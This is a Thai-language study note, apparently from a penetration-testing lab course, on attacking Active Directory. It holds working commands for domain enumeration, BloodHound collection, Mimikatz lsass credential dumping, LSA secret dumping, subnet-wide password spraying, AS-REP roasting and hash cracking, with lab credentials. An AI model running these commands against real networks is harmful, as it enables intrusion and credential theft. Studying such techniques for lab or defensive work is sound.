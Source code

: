 [[Enumeration]]
```
# ตรวจสอบ user ภายใน local 
net user 

# ตรวจสอบ Group ใน Local 
net localgroup
net localgroup "Management Department"

# ตรวจสอบ Group ใน Domain ทั้งหมด 
net group /domain 

# ตรวจสอบ Member ที่อยู่ใน Group นี้ 
net group "Management Department" /domain

# ตรวจสอบ User ภายใน Domain  
net user /domain

# ตรยจสอบ รายละเอียของ User jen 
net user jen /domain 

# ตรวจสอบชื่อโดเมนด้วย .NET 
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() 
```

[[PowerView]]

```powershell
powershell -ep bypass 
. .\PowerView.ps1

# ตรวจสอบ Domain ที่สนใจด้วย PowerView หรือจะใช้ net group ก็ได้ผลเหมือนกัน
Get-Netgroup 
Get-DomainGroup -Name "Domain Admins" 
net group "Domain Admins" /domain 
```


AD ACL and ACE permission concept 
[[ACL&ACE]]
![[ACLandACE.png]]



https://support.bloodhoundenterprise.io/hc/en-us/articles/17312347318043-GenericAll

https://www.thehacker.recipes/ad/movement/dacl/addmember

![[shapehound_collectionGP.png]]


[[bloodhound-python]] 
```bash
# รูปแบบคำสั่ง
bloodhound-python -u <user> -p <Pass> -d <domain> -v --zip -c ALL,LoggedOn -dc <DCname> -ns <IPofDC>

# ตัวอย่าง Command
bloodhound-python -u stephanie -p 'LegmanTeamBenzoin!!' -d corp.com -v --zip -c All,LoggedOn -dc dc1.corp.com -ns 192.168.160.70

```

[[Cached AD Credentials]]

ภายในเครื่องเป้าหมายบางเครื่องจะมีการเก็บข้อมูลของ Cache Credential ของ AD ไว้ ซึ่งเราสามารถใช้ Mimikatz สำหรับดึงค่า Credential ของผู้ใช้งานอื่นๆ ภายใต้ Memory บน lsass.exe ได้ 

```powershell 
powershell -ep bypass 
.\mimikatz.exe
privilege::debug
# dump lssas memory by mimikaz
sekurlsa::logonpasswords

```
![[dumpLSAonMem.png]]

[[KaliDumpCachedADCred]]
```bash
# หรือเราสามารถใช้ tools ภายใน kali ได้ เช่น nxc หรือ secretdump 
nxc smb 192.168.160.75  -u jeff -p 'HenchmanPutridBonbon11' --lsa 
impacket-secretdump corp/'jef:HenchmanPutridBonbon11'@192.168.160.75
```

[[PasswordSplay]]

```bash 
nxc smb 192.168.160.0/24 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

![[passSplay.png]]


[[AS-Rep Roasting]]

การจะโจมตีได้จะต้องมี 2 เงื่อนไข
1. ต้องสามารถติดต่อไปถึง AD ได้ 
2. ต้องมี User Credential สิทธิอะไรก็ได้ 
ผลลัพธ์ จะได้ข้อมูล Users คนอื่นๆ และค่า TGT Hash กลับมา และสามารถนำไป Crack ต่อได้ 

```
# ทดสอบโจมตีด้วย AS-Rep Roasting 
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

# ตรวจสอบ Version ว่าเป็นอะไร โดยในที่นี้ใช้ mode 18200 
hashcat --help | grep -i "Kerberos"

# ทำการ Crack ค่า Hash ที่ได้มา 
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# กรณีเจอ Version อื่นๆ ให้ลองปรับ mode 
# Crack the hash with Hashcat 
# $krb5tgs$23$ 
$ hashcat -a 0 -m 13100 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --force --potfile-disable 

# $krb5tgs$18$ 
$ hashcat -a 0 -m 19700 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --force --potfile-disable 

# เราสามารถใช้ john ได้ และไม่จำเป็นต้องตรวจสอบ mode 
# Crack the hash with John the Ripper 
$ john hash.txt --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

```


